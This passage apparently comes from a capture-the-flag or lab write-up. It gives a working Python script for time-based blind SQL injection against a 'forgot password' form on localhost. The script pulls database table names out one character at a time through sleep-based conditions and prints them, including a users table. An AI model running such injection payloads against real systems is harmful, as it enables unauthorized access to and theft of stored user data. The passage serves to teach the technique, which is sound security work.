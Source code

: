 Now, here is a script to recover the tables name. You can see that here, and in the other scripts too, we are using hexadecimal values of strings in order to avoid any issue with quotes. In order to respect the rate limiting, we can add a delay between each request.

```python
import requests
import string
from time import time, sleep

alphabet = string.ascii_letters+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

payload = "' or if((select SUBSTRING(table_name,{},1) from information_schema.tables where table_schema=database() limit {},1)={}, sleep(2), null) -- "

num_char = 1
num_table = 1
table = ""

tables = []

while True:
    stop = True
    for char in alphabet:
        sleep(0.6)
        t1 = time()
        p = payload.format(num_char, num_table-1, hex(ord(char)))
        r = requests.post(url, data={"email": p})
        t2 = time()
        if t2-t1 > 2:
            stop = False
            if char == " ":
                tables.append(table)
                num_table += 1
                num_char = 1
                table = ""
            else:
                table += char
                num_char += 1
    if stop == True:
        for table in tables:
            print(f"Found table {table}")
        break
```

We get as output:
```
Found table j0j0_messages
Found table j0j0_users
```

Let's focus on table `j0j0_users`, as this is probably the one that contains users information.
